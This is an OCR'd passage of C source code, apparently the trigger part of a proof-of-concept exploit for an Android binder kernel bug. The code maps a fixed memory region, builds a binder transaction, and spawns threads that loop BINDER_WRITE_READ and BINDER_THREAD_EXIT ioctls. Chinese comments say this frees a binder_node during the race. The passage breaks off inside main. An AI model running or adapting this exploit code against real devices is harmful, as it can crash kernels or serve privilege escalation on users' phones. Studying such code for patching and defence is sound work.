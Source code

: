 ```
 
    uint64_t txn_size = sizeof(uint32_t) + sizeof(btd2);
 
    /* Transaction command */
    *(uint32_t*)(MEM_ADDR + 0x200) = BC_TRANSACTION;
    memcpy((void*)(MEM_ADDR + 0x204), &btd2, sizeof(btd2));
 
    /* Binder write/read structure sent to binder */
    struct binder_write_read bwr = {
        .write_size = txn_size * (1), // 1 txno
        .write_buffer = MEM_ADDR + 0x200
    };
    memcpy((void*)(MEM_ADDR + 0x100), &bwr, sizeof(bwr));
}
void *trigger_thread_func(void *argp) {
    unsigned long id = (unsigned long)argp;
    int ret = 0;
    int binder_fd = -1;
    int binder_fd_copy = -1;
 
    // Opening binder device
    binder_fd = open("/dev/binder", O_RDWR);
    if (binder_fd < 0)
        perror("An error occured while opening binder");
 
    for (;;) {
        // Refill the memory region with the transaction
        init_binder_transaction(1);
        // Copying the binder fd
        binder_fd_copy = dup(binder_fd);
        // Sending the transaction
        ret = ioctl(binder_fd_copy, BINDER_WRITE_READ, MEM_ADDR + 0x100); //创建binder_node
        if (ret != 0)
            debug_printf("BINDER_WRITE_READ did not work: %d", ret);
        // Binder thread exit
        ret = ioctl(binder_fd_copy, BINDER_THREAD_EXIT, 0);//从thread->todolist中出列，当返回之时，binder_node也会释放。
        if (ret != 0)
            debug_printf("BINDER_WRITE_EXIT did not work: %d", ret);
        // Closing binder device
        close(binder_fd_copy);
    }
 
    return NULL;
}
int main() {
    pthread_t trigger_threads[NB_TRIGGER_THREADS];
 
    // Memory region for binder transactions
    mmap((void*)MEM_ADDR, MEM_SIZE, PROT_READ | PROT_WRITE,
         MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0);
 
    // Init random
    srand(time(0));
 
    // Get rid of stdout/stderr buffering
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
 
    // Starting trigger threads
    debug_print("Starting trigger threads");
    for (unsigned long i = 0; i < NB_TRIGGER_THREADS; i++) {
        pthread_create(&trigger_threads[i], NULL, trigger_thread_func, (void*)i);//多线程来触发。
```